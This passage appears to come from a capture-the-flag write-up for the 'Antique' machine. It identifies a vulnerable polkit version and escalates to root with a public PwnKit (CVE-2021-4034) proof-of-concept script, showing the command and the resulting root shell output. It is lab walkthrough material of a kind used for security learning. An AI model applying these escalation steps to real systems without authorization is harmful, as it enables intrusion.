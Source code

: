 ```
 PolicyKit is an application-level toolkit for defining and handling the policy
 that allows unprivileged processes to speak to privileged processes.
 .
 It is a framework for centralizing the decision making process with respect to
 granting access to privileged operations for unprivileged (desktop)
 applications.
Homepage: https://www.freedesktop.org/wiki/Software/polkit/
Original-Maintainer: Utopia Maintenance Team <pkg-utopia-maintainers@lists.alioth.debian.org>

```

The important line is:

```

Version: 0.105-26ubuntu1.1

```

According to this table from the Datadog post, that’s the last vulnerable version on Ubuntu 20.04 focal:

![image-20220502102910695](https://0xdfimages.gitlab.io/img/image-20220502102910695.png)

#### Exploit

This box is actually vulnerable to [PwnKit](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034). I’ll download a POC exploit (I like this one from Joe Ammond [here](https://raw.githubusercontent.com/joeammond/CVE-2021-4034/main/CVE-2021-4034.py)), and upload it to Antique. From there, it’s as simple as running the script:

```

lp@antique:/dev/shm$ python3 CVE-2021-4034.py
[+] Creating shared library for exploit code.
[+] Calling execve()
# id
uid=0(root) gid=7(lp) groups=7(lp),19(lpadmin)

```